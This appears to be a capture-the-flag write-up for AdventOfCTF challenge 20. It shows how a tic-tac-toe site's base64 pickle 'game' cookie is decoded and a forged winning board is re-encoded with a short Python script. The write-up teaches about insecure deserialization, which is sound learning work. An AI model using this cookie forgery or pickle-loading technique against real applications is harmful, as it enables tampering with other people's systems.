 +++
author = "Maik de Kruif"
title = "Challenge 20 - AdventOfCTF"
date = 2021-02-26T00:11:35+23:00
description = "A writeup for challenge 20 of AdventOfCTF."
cover = "img/adventofctf/c1f93b6ee2e1cd25ea02f9a78c364b12.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "python",
    "serialization",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2000

## Description

To pass the time until Christmas the elves challenge Santa to a game of tic-tac-toe. Santa plays X, can you make him win?

Visit https://20.adventofctf.com to start the challenge.

## Recon

When looking around on the page, we can see a tic tac toe board with two links in it. These links direct to `/play/y/x` and place an `O` on the board. After placing it, `O` wins.

If we take a look at the source, we also find a bit of javascript:

```js
function send() {
  let emoji = $("#emoji")[0].value;
  if (emoji.length > 0) {
    $.post("/", { emoji: emoji }, function (data) {
      $("#msg")[0].innerHTML = "<b>" + data + "</b>";
    });
  }
}
```

This code doesn't seem to be used though and I don't see what it would be used for so we'll ignore it for now.

Lastly, we can check the cookies on the website. Here we can find the `game` cookie. It looks like it's some `base64` encoded data.

```text
game=gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu
```

## Finding the vulnerability

We will start by having a look at the `game` cookie. If we base64 decode it we do see some information about a board, but its not plain text.

```bash
echo -n "gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu" | base64 -d
```

```text
�}q(Xboardq]q(]q(XOqhNe]q(hXXqhe]q(NhheeXturnhfinishedq	�Xwinnerq
NXsaneq
       �u.⏎
```

By the looks of it, it might be a serialized object but we don't know where it came from.

To find out what the backend framework of the server is, we can look at the `Server` header in the http response. This is not always filled in with useful information, but this time it was.

```text
Server: Werkzeug/1.0.1 Python/3.7.10
```

Here we can see the website uses Python for the backend. This narrows the amount of possible serialization libraries down a lot. A common library used for this in Python is Pickle.

To test whether the cookie is encoded pickle data, we can use the pickle's `loads` function to import the data from a string:

```text
>>> import pickle
>>> import base64
>>> pickle.loads(base64.b64decode("gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu"))
{'board': [['O', 'O', None], ['O', 'X', 'X'], [None, 'X', 'X']], 'turn': 'O', 'finished': False, 'winner': '', 'sane': True}
```

Yes! It's using pickle and we can now try to alter the board.

## Exploit

To alter the board, we can write a little Python script like the following. You can't just put three `X` in a row as the backend checks the game state. To get around this, we can just place a few `O` on the board.

```py
import base64
import pickle

board_b64 = "gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu"

data = pickle.loads(base64.b64decode(board_b64))

data["board"] = [['X', 'X', 'X'], ['O', None, None], [None, None, 'O']]
data["winner"] = 'X'
data["turn"] = 'O'

print(base64.b64encode(pickle.dumps(data)))
```

```text
gASVVwAAAAAAAAB9lCiMBWJvYXJklF2UKF2UKIwBWJRoBGgEZV2UKIwBT5ROaAZlXZQoTk5OZWWMBHR1cm6UaAaMCGZpbmlzaGVklImMBndpbm5lcpRoBIwEc2FuZZSIdS4=
```

We can then replace the `game` cookie with this string and reload the page.

## Solution

We got the flag! It is `NOVI{p1ckle_r1ck}`.
